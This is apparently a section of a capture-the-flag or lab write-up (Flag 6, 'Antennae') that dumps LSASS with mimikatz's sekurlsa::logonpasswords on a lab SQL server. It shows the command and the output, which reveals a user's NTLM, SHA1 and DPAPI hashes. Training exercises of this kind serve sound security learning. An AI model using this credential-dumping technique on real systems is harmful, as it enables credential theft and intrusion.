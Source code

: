 # Flag 6: Antennae

![](./assets/img/rv-sept/6.png)

Finally, with local `SYSTEM` access on `sql01.antennae.rv` - we can obtain credentials from logged on users by dumping the [`LSASS`](https://www.deepinstinct.com/blog/lsass-memory-dumps-are-stealthier-than-ever-before) process. This allows us to steal `NTLM` hashes of users that have previously logged into the machine.

## Dumping LSASS

We can do this with `sekurlsa::logonpasswords` from [mimikatz.exe](https://github.com/gentilkiwi/mimikatz), and find the `NTLM` hash of `kai.wen.goh`.

```
C:\windows\tasks>.\mimikatz.exe "sekurlsa::logonpasswords" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonpasswords

Authentication Id : 0 ; 153166753 (00000000:092123a1)
Session           : Batch from 0
User Name         : kai.wen.goh
Domain            : antennae
Logon Server      : DC01
Logon Time        : 9/8/2025 12:41:46 AM
SID               : S-1-5-21-1843653573-2831615454-1469364877-1122
        msv :
         [00000003] Primary
         * Username : kai.wen.goh
         * Domain   : antennae
         * NTLM     : 56e7e432c955bfdbb8f57d1248417116
         * SHA1     : f0d0a4ae3f6aeac2d677f1c6675c757453b18c37
         * DPAPI    : 81ce964944648399d64c9f933d25fc62
        tspkg :
        wdigest :
         * Username : kai.wen.goh
         * Domain   : antennae
         * Password : (null)
        kerberos :
         * Username : kai.wen.goh
         * Domain   : ANTENNAE.RV
         * Password : (null)
        ssp :
```